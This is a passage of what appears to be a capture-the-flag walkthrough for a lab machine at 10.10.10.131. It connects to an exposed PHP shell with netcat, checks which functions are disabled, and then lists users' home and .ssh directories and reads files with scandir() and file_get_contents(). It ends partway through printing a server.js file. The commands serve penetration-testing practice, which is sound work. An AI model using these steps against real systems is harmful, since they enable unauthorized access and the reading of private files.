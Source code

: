 We can use rlwrap for a better shell:

```bash
rlwrap nc 10.10.10.131 6200
```

Now, our goal should be to upgrade our shell. We can use phpinfo() to find what functions are disabled:

```bash
phpinfo()
```

Now search for disable_functions

```bash
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

However, we can read directories and files using scandir() and file_get_contents() respectively. 

```bash
scandir("/home")
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]

scandir("/home/berlin")
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]

scandir("/home/berlin/.ssh")
PHP Warning:  scandir(/home/berlin/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1

scandir("/home/dali/.ssh")
=> [
     ".",
     "..",
     "authorized_keys",
     "known_hosts",
   ]

file_get_contents("/home/dali/server.js")
=> """
   const net = require('net')\n
   const spawn = require('child_process').spawn\n
   \n
   const server = net.createServer(function(socket) {\n
       const sh = spawn('/usr/bin/psysh')\n
       sh.stdin.resume()\n
       sh.stdout.on('data', function (data) {\n
```